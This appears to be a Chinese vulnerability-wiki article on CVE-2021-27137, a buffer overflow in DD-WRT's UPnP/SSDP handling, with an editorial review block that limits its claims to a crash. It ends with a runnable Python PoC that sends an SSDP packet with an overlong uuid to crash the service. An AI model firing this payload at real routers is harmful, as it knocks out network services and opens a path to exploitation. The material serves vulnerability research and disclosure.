


# DD-WRT UPNP缓冲区溢出漏洞 CVE-2021-27137

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：DD-WRT UPnP/SSDP
- 本文讨论：CVE-2021-27137
- 版本、权限与配置前提：&lt;45723；UPnP默认关闭，仅LAN；平台缓解决定代码执行可能
- 资料类型：源码背景/崩溃PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 将UPnP整体称UDP协议不准确，示例实际SSDP发现阶段
- PoC只触发崩溃，没有稳定控制流/代码执行证明；应保留这个范围
- 无原始披露/修复链接，源码仅图片

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 版本界限与平台可利用性待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

默认情况下，DD-WRT中的UPNP处于禁用状态，并且仅在内部网络接口上侦听。

UPNP本质上是未经身份验证的UDP形式的协议–由于无法对协议强制执行身份验证，因此它既易于使用又具有不安全。

如果DD-WRT启用了UPNP服务，则坐在存在DD-WRT设备的LAN上的远程攻击者可以通过发送一个过长的`uuid`值来触发缓冲区溢出。

根据部署DD-WRT的平台的不同，可能存在缓解措施，也可能没有缓解措施，例如ASLR等，这使得可利用性取决于安装DD-WRT的平台。

## 漏洞影响

```
DD-WRT < 45723 版本
```

## 漏洞复现

通过查看源代码，`ssdp.c`可以很容易地发现有问题的代码：





用户提供的数据的未绑定副本被复制到缓冲区中，该缓冲区的大小限制为128个字节。

由于默认情况下未启用UPNP服务，因此重新创建漏洞的第一步是启用将自动启动该服务的服务




启动PoC脚本将触发upnp服务崩溃，这可以在启动以下python脚本几秒钟后看到


## 漏洞POC

```python
import socket
target_ip = "192.168.15.124" # IP Address of Target
off = "D"*164
ret_addr = "AAAA" 
payload = off + ret_addr
packet = \
    'M-SEARCH * HTTP/1.1\r\n' \
    'HOST:239.255.255.250:1900\r\n' \
    'ST:uuid:'+payload+'\r\n' \
    'MX:2\r\n' \
    'MAN:"ssdp:discover"\r\n' \
    '\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.sendto(packet.encode(), (target_ip, 1900) )
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
